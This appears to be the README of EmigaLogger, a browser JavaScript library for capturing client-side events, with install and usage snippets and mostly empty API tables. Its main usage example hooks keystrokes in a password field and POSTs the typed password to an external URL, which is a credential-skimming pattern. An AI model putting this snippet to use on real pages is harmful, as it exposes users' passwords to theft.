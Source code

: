 <p align="center">
  <img src="demo/demo.png" />
</p>



<h1 align="center">EmigaLogger for Browsers (v1.0.2)
  
<div align="center" style="display:none !important;text-align:center;">

![GitHub](https://img.shields.io/github/license/eminmuhammadi/EmigaLogger)
![GitHub file size in bytes](https://img.shields.io/github/size/eminmuhammadi/EmigaLogger/dist/EmigaLogger.min.js)

</div>
</h1>

<p align="center">
EmigaLogger combines several modules to send a valuable client-side information to the database
</p>

## Install
```html
<script type="text/javascript" src="https://cdn.jsdelivr.net/gh/eminmuhammadi/EmigaLogger@v1.0.2/dist/EmigaLogger.min.js"></script>
```

## Usage
```js
const Logger   = new EmigaLogger();
const Data     = new EmigaData();
const Selector = new EmigaSelector();

const Password = Selector.Select('input[name=password]');
Logger.Log(Password,'keydown',()=>{
    Data.Send('https://example.com',{
        method: 'POST',
        body: JSON.stringify({
           password: Selector.Value(Password)
        }) 
    });
});
```
For examples  [./demo/](demo)
- `button`  [./demo/button.html](demo/button.html)
- `example` [./demo/example.html](demo/example.html)
- `form`    [./demo/form.html](demo/form.html)
- `input`   [./demo/input.html](demo/input.html)

## API Reference
### new EmigaLogger()
#### EmigaLogger().Log(query,state,callback)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|
| state     |      	|         	|             	|
| callback  |      	|         	|             	|

#### EmigaLogger.Call(callback)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| callback  |      	|         	|             	|

### new EmigaSelector()
#### EmigaSelector().Select(query)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|

#### EmigaSelector().Submit(element)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| element   |      	|         	|             	|

#### EmigaSelector().Value(element)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| element   |      	|         	|             	|

#### EmigaSelector().Text(element)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| element   |      	|         	|             	|

### new EmigaData()
#### EmigaData().Serialize(form)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| form      |      	|         	|             	|

#### EmigaData().Send(url,options)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| url       |      	|         	|             	|
| options.method         |      	|    `GET`,`POST`,`PUT`,`HEAD`,`DELETE`,`PATCH`,`OPTIONS` |             	|
| options.mode           |      	|   `no-cors`, `cors`, `same-origin`  |             	|
| options.cache          |      	|  `Value`, `no-cache`, `reload`, `force-cache`, `only-if-cached` |             	|
| options.credentials    |      	| `include`, `same-origin`, `omit`        	|             	|
| options.headers        |      	|         	|             	|
| options.redirect       |      	|  `manual`, `follow`, `error` |             	|
| options.referrerPolicy |      	|  `no-referrer`, `client` |             	|
| options.body           |      	|         	|             	|

### new EmigaToken()
#### EmigaToken().uuid()
### new EmigaCookies()
#### EmigaCookies().Get(name)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	|         	|             	|

#### EmigaCookies().Set(name,value,options)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	|         	|             	|
| value     |      	|         	|             	|
| options.expires   |      	|         	|             	|
| options.path      |      	|   `/` (default)  	|             	|
| options.domain    |      	|         	|             	|
| options.secure    |      	|   `true`, `false`      	|             	|
| options.sameSite  |      	|    `lax`, `strict`     	|             	|

#### EmigaCookie().Delete(name)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	|         	|             	|

#### EmigaCookie().Cookie(name,value,days)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	| `X-UUID` (default)  |             	|
| value     |      	|           |             	|
| days     |      	|  `1`  (default)    |             	|

### new EmigaInit(event)
